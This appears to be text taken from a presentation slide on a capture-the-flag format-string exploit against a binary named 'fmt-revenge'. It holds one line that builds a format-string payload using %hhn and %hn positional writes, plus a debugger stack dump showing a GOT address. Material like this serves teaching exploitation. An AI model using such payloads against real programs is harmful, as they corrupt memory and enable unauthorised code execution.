

fmt('%{}c%10$hhn%{}c%9$hn'.format( a , b - a ))
0000| 0x7ffeb488bd50 --> 0x7ffeb488bd60 --> 0x7ffeb488bd7a --> 0x1000000000060
0008| 0x7ffeb488bd58 --> 0x40057d (<vuln+41>:   jmp    0x400558 <vuln+4>)
0016| 0x7ffeb488bd60 --> 0x7ffeb488bd7a --> 0x1000000000060
0024| 0x7ffeb488bd68 --> 0x40058d (<main+14>:   mov    eax,0x0)
0032| 0x7ffeb488bd70 --> 0x601018 --> 0x7fa066fe138c (<exec_comm+2508>: mov rax,QWORD PTR [rip+0x2e0b15] )
0040| 0x7ffeb488bd78 --> 0x60101a --> 0x707000007fa066fe
0048| 0x7ffeb488bd80 --> 0x1
0056| 0x7ffeb488bd88 --> 0x7ffeb488be58 --> 0x7ffeb488c2bf ("./fmt-revenge")